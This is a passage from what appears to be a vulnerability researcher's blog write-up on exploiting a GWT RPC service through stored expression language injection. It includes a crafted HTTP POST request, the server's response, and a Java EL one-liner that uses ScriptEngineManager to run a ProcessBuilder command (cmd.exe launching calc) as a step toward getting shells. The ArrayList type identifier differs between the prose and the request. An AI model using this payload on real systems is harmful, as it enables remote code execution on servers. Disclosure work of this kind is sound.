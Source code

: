 <p class="cn" markdown="1">With a server response of **//OK[[],0,6]** we know that our GWT injection was successful. Then, the second request to trigger the *stored* in a session string, expression language injection. However, before we send that request, since we are using complex types for the **setMibNodesInfo** function, we need to look up the policy file that defines the available types allowed to send. Within the **[strong name].gwt.rpc** file, I found the following type value for ArrayList: **java.util.ArrayList/382197682**.</p>

<p class="cn" markdown="1">Now we can go ahead and use that type in the request:</p>

{% highlight text %}
POST /someService.gwtsvc HTTP/1.1
Host: [target]
Accept: */*
X-GWT-Module-Base: 
X-GWT-Permutation: 
Cookie: JSESSIONID=[cookie]
Content-Type: text/x-gwt-rpc; charset=UTF-8
Content-Length: 171

6|0|6||45D7850B2B5DB917E4D184D52329B5D9|com.aaa.bbb.ccc.ddd.client.SomeService|setMibNodesInfo|java.util.List|java.util.ArrayList/3821976829|1|2|3|4|1|5|6|0|
{% endhighlight %}

<p class="cn" markdown="1">The corresponding response, looks like this:</p>

{% highlight text %}
HTTP/1.1 302 Found
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID=[cookie]; Path=/; Secure; HttpOnly
Set-Cookie: oam.Flash.RENDERMAP.TOKEN=-g9lc30a8l; Path=/; Secure
Pragma: no-cache
Cache-Control: no-cache
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Pragma: no-cache
Location: https://srcincite.io/
Content-Type: text/html;charset=UTF-8
Content-Length: 45
Date: Wed, 03 May 2017 18:58:36 GMT
Connection: close

//OK[0,1,["java.lang.Boolean/476441737"],0,6]
{% endhighlight %}

<p class="cn" markdown="1">Of course, redirection is great and all for vulnerability detection, but we want shells. After reading Minded Securities excellent [blog post](http://blog.mindedsecurity.com/2015/11/reliable-os-shell-with-el-expression.html) I discovered that I can use the **ScriptEngineManager**'s JavaScript engine to dynamically evaluate Java code. Their one-liner was a bit long for me, so I created one that works using the same technique.</p>

{% highlight java %}
"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("var proc=new java.lang.ProcessBuilder[\\"(java.lang.String[])\\"]([\\"cmd.exe\\",\\"/c\\",\\"calc.exe\\"]).start();")
{% endhighlight %}
